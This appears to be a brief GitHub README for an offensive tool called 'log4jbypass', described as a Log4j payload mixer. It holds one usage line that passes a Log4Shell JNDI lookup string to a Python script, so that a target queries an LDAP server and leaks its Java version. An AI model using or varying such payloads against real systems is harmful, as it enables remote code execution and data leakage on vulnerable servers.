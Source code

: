 # log4jbypass
log4j payload mix

## useage
python log4j_bypass.py '${jndi:ldap://127.0.0.1:1389/${sys:java.version}}'


